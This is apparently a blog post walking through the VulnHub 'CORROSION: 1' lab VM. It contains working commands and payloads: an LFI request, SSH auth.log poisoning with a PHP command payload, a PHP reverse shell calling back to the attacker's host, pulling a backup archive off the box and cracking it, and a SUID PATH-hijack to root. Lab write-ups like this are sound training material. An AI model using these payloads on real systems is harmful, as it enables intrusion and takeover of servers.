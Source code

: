 ```yaml
---
layout: post
title:  "Vulnhub: CORROSION: 1"
date:   2021-08-07 19:00:00 +1000
category: hacking
---
```


This is [CORROSION: 1](https://www.vulnhub.com/entry/corrosion-1,730/) from VulnHub:

>A easy box for beginners, but not too easy. Good Luck.

## Ports
SSH and HTTP only. 

## HTTP
``
python3 /opt/dirsearch/dirsearch.py -u http://192.168.1.108
``

Dirsearch turns up /tasks/ which contains *tasks_todo.txt*. It says:

># Tasks that need to be completed
1. Change permissions for auth log  
2. Change port 22 -> 7672
3. Set up phpMyAdmin

I've obviously done too many of these because my immediate thought was we are poisoning /var/log/auth.log via SSH and using a PHP LFI to include the poisoned log for a shell. As it turned out, that was correct. So, how did we find our LFI? We need to search for PHP files. I use feroxbuster. We find only a couple of things, one of which is:

>http://192.168.1.108/blog-post/archives/

This has directory listing enabled and there is one entry, *randylogs.php*. I use Burp Turbo Intruder to find the parameter, but you could just guess it (it's **file**):

{% highlight html %}
GET /blog-post/archives/randylogs.php?%s=../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.1.108
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
{% endhighlight %}

%s of course turns out to be **file**. From there we have to poison auth.log. **zsh** doesn't like the syntax, but **bash** doesn't mind:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/corrosion]
└─# bash                                                                                   
┌──(root💀kali)-[/opt/vulnhub/corrosion]
└─# ssh '<?php system($_GET['cmd']); ?>'@192.168.1.108
<?php system($_GET[cmd]); ?>@192.168.1.108s password: 
Permission denied, please try again.
# CTRL+c at this point, we're done
{% endhighlight %}

Now we can call a shell:

{% highlight html %}
GET /blog-post/archives/randylogs.php?file=../../../../../../../../../../var/log/auth.log&cmd=php+-r+'$sock%3dfsockopen("192.168.1",1234)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 192.168.1.108
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
{% endhighlight %}

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/corrosion]
└─# nc -nvlp 1234                                                                         
listening on [any] 1234 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.108] 36316
/bin/sh: 0: cant access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@corrosion:/var/www/html/blog-post/archives$
{% endhighlight %}

## Privesc
With some enumeration we find a backup file that we have to exfil and crack the password; let's do that first:

{% highlight shell %}
www-data@corrosion:/var/backups$ cp user_backup.zip /tmp/backup.zip
cp user_backup.zip /tmp/backup.zip
www-data@corrosion:/var/backups$ cd /tmp
cd /tmp
www-data@corrosion:/tmp$ ls -lash
ls -lash
total 12K
4.0K drwxrwxrwt  2 root     root     4.0K Aug  7 03:36 .
4.0K drwxr-xr-x 20 root     root     4.0K Jul 29 17:05 ..
4.0K -rw-r--r--  1 www-data www-data 3.3K Aug  7 03:36 backup.zip
www-data@corrosion:/tmp$ python3 -m http.server 8000
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.1.210 - - [07/Aug/2021 03:37:16] "GET /backup.zip HTTP/1.1" 200 -
{% endhighlight %}

In Kali:
{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/corrosion]
└─# wget http://192.168.1.108:8000/backup.zip      
--2021-08-07 05:37:16--  http://192.168.1.108:8000/backup.zip
Connecting to 192.168.1.108:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3285 (3.2K) [application/zip]
Saving to: ‘backup.zip’

backup.zip                                     100%[=================================================================================================>]   3.21K  --.-KB/s    in 0s      

2021-08-07 05:37:17 (450 MB/s) - ‘backup.zip’ saved [3285/3285]
                                                                                        
┌──(root💀kali)-[/opt/vulnhub/corrosion]
└─# zip2john backup.zip > john.zip
ver 2.0 efh 5455 efh 7875 backup.zip/id_rsa PKZIP Encr: 2b chk, TS_chk, cmplen=1979, decmplen=2590, crc=A144E09A
ver 2.0 efh 5455 efh 7875 backup.zip/id_rsa.pub PKZIP Encr: 2b chk, TS_chk, cmplen=470, decmplen=563, crc=41C30277
ver 1.0 efh 5455 efh 7875 backup.zip/my_password.txt PKZIP Encr: 2b chk, TS_chk, cmplen=35, decmplen=23, crc=21E9B663
ver 2.0 efh 5455 efh 7875 backup.zip/easysysinfo.c PKZIP Encr: 2b chk, TS_chk, cmplen=115, decmplen=148, crc=A256BBD9
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
    
┌──(root💀kali)-[/opt/vulnhub/corrosion]
└─# john john.zip -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!randybaby       (backup.zip)
1g 0:00:00:01 DONE (2021-08-07 05:37) 0.7352g/s 10541Kp/s 10541Kc/s 10541KC/s #1Emokid..!jonas
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

Let's go back to the box:

{% highlight shell %}
www-data@corrosion:/tmp$ unzip backup.zip
unzip backup.zip
Archive:  backup.zip
[backup.zip] id_rsa password: !randybaby

  inflating: id_rsa                  
  inflating: id_rsa.pub              
 extracting: my_password.txt         
  inflating: easysysinfo.c           
www-data@corrosion:/tmp$ cat eas
cat easysysinfo.c 
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("/usr/bin/date");

  system("cat /etc/hosts");

  system("/usr/bin/uname -a");

}
{% endhighlight %}

Right, looks like we got a path to root here. But first we need to be *randy*:

{% highlight shell %}
www-data@corrosion:/tmp$ cat my_password.txt
cat my_password.txt
randylovesgoldfish1998
www-data@corrosion:/tmp$ su randy
su randy
Password: randylovesgoldfish1998

randy@corrosion:/tmp$
{% endhighlight %}

No problem there. Also we have some SSH keys so I guess we could have connected via SSH as randy if we wanted. No need at this point though.

Let's find our compiled SUID binary:

{% highlight shell %}
randy@corrosion:~$ cd tools
cd tools
randy@corrosion:~/tools$ ls -lash
ls -lash
total 28K
4.0K drwxrwxr-x  2 randy randy 4.0K Jul 30 00:11 .
4.0K drwxr-x--- 17 randy randy 4.0K Jul 30 16:01 ..
 16K -rwsr-xr-x  1 root  root   16K Jul 30 00:11 easysysinfo
4.0K -rwxr-xr-x  1 root  root   318 Jul 29 19:12 easysysinfo.py
{% endhighlight %}

And there it is. Not sure why the python file - maybe this was a second path to root via python module abuse. We don't need it though so I won't bother. Looking at the source earlier we had fully quoted paths for **date** and **uname**, but not **cat**. So let's abuse that:

{% highlight shell %}
randy@corrosion:~/tools$ echo 'sh' > cat
echo 'sh' > cat
randy@corrosion:~/tools$ chmod +x cat
chmod +x cat
randy@corrosion:~/tools$ export PATH=/home/randy/tools:$PATH
export PATH=/home/randy/tools:$PATH
randy@corrosion:~/tools$ echo $PATH
echo $PATH
/home/randy/tools:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
randy@corrosion:~/tools$ ./easysysinfo
./easysysinfo
Sat Aug  7 03:41:16 AM MDT 2021
# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),121(lpadmin),133(sambashare),1000(randy)
corrosion
Sat Aug  7 03:41:21 AM MDT 2021
# cd /root
{% endhighlight %}

And we are done. 
